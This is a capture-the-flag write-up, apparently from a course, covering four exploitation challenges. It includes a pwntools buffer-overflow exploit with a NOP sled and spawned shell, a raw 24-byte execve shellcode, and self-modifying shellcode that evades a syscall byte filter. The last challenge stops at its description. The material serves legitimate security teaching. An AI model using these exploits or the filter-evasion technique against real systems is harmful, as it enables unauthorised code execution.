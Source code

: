 # BOF101

The first thing to do to exploit the vulnerability in this exercise as the name suggested was finding the correct offset to make the input buffer overflow.
In order to do so I used the cyclic pattern explained in the slides using pwntool=s methods that made this task quite simple

```python
pattern = pwn.cyclic(100)
io = pwn.process(bin)
io.sendline(pattern)
offset = pwn.cyclic_find(0x6161616C)
```

The text printed out by the bin suggested that there was a leaked address where it was possible to inject some code so I parsed it out and added it to the payload along with a 'nop sled', that assured that the next instruction would be our shellcode forged using pwntools

```python
leaked_address = io.recvuntil(b"&x=")
leaked_address = io.recvline().strip().decode()
io.sendline(
    b"a" * OFFSET_RIP
    + pwn.p64(int(leaked_address, 16))
    + pwn.asm("nop") * 50
    + pwn.asm(pwn.shellcraft.sh())
)
```

Doing so I was able to get the first flag

```
BASC{Congratz_U_3Xpl0it3d_your_f1r5t_BOF}
```

# Smallcode

```
Don't be fooled by my name: I'm a great code-runner ;-) ... though I can only run a small amount of code each time.

Send me any x64 shellcode, up to 25 bytes, and I'll execute it (at a random address, in rwx memory).
```

Using the resources I found in the slides I was able to find a shell-code on "shell-storm.org" with a length of just 24 bytes that executed the command 

```c
execve("/bin/bash",{NULL},{NULL})
```

Sending the shell-code as I found it was just enough to get the flag

```python
shellcode = b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05"
io.send(shellcode)
```

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
```

# No_syscalls

```
Send me any x86 shellcode (up to 42 bytes), which contains no system calls, and I'll execute it (at a random address, in rwx memory).
```

In order to spawn a shell is necessary to do at least one syscall so it had to be forged anyway in our code. Trying to send a simple shell-code containing syscalls' bytes resulted in

```
INT 80h is forbidden
```

So there must have been some byte-checking step that blocked syscalls.
An approach explained in the slides was 'self-modifying code' that permits to avoid restrictions in some cases.
So I slightly modified the original shell-code

```python
    shellcode = pwn.asm(
    """
    _start:
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx,esp
    mov ecx,eax
    mov edx,eax
    mov al,0xb
    call _incr

    _incr:
    pop edi
    inc byte ptr [edi + 5]
    .byte 0xcd
    .byte 0x7f
	"""
	)
```

The trick resides in the 'incr' function where the instead of explicitly writing the 0x80 syscall's byte I wrote 0x7f, which is incremented by one in a second moment, bypassing the pattern checking and successfully bringing out the exploit and granting me the flag

```
BASC{s4ndb0X1n9_AiNt_3a5y}
```

# Blockchain

```
This is a blockchain (not _that_ blockchain) builder. That is, you provide a series of 5-byte blocks, and we join them together, then run the resulting chain.
```
